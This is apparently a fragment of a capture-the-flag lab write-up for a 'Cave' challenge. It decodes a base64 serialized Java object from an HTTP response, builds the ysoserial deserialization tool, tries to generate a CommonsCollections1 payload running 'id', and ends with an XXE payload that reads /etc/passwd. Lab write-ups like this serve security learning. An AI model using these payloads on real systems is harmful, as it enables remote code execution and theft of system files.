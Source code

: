 ```bash
HTTP/1.1 200 OK
Date: Thu, 25 Sep 2025 23:14:52 GMT
Server: Apache/2.4.41 (Ubuntu)
Last-Modified: Tue, 25 Aug 2020 19:01:38 GMT
ETag: "c5-5adb8552aa880"
Accept-Ranges: bytes
Content-Length: 197
Connection: close

rO0ABXNyAAZBY3Rpb275vE3ugB8ZOwIAA0wAB2NvbW1hbmR0ABJMamF2YS9sYW5nL1N0cmluZztMAARuYW1lcQB+AAFMAAZvdXRwdXRxAH4AAXhwdAAuWW91IGNhbid0IHNlZSBhbnl0aGluZywgdGhlIGNhdmUgaXMgdmVyeSBkYXJrLnQABnNlYXJjaHQAAA==
```

<img width="1021" height="571" alt="image" src="https://github.com/user-attachments/assets/82ea0f62-dbe4-4eab-bc3c-d4c1946a4022" />



:~/Cave# echo 'rO0ABXNyAAZBY3Rpb275vE3ugB8ZOwIAA0wAB2NvbW1hbmR0ABJMamF2YS9sYW5nL1N0cmluZztMAARuYW1lcQB+AAFMAAZvdXRwdXRxAH4AAXhwdAAuWW91IGNhbid0IHNlZSBhbnl0aGluZywgdGhlIGNhdmUgaXMgdmVyeSBkYXJrLnQABnNlYXJjaHQAAA==' | base64 -d
\ufffd\ufffdsrAction\ufffd\ufffdM\ufffd;LcommandtLjava/lang/String;Lnameq~Loutputq~xpt.You can't see anything, the cave is very dark.tsearcht




:~/Cave# git clone https://github.com/frohoff/ysoserial.git
Cloning into 'ysoserial'...
remote: Enumerating objects: 2303, done.
remote: Counting objects: 100% (6/6), done.
remote: Compressing objects: 100% (3/3), done.
remote: Total 2303 (delta 4), reused 3 (delta 3), pack-reused 2297 (from 2)
Receiving objects: 100% (2303/2303), 461.92 KiB | 14.00 MiB/s, done.
Resolving deltas: 100% (1114/1114), done.


:~/Cave# cd ysoserial


root@ip-10-201-61-44:~/Cave/ysoserial# mvn package
[INFO] Scanning for projects...
[INFO] 
[INFO] ------------------------< ysoserial:ysoserial >-------------------------
[INFO] Building ysoserial 0.0.6-SNAPSHOT
[INFO] --------------------------------[ jar ]---------------------------------




:~/Cave# java -jar ysoserial.jar CommonsCollections1 'id' | base64
Error: Unable to access jarfile ysoserial.jar


<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]><root>&test;</root>




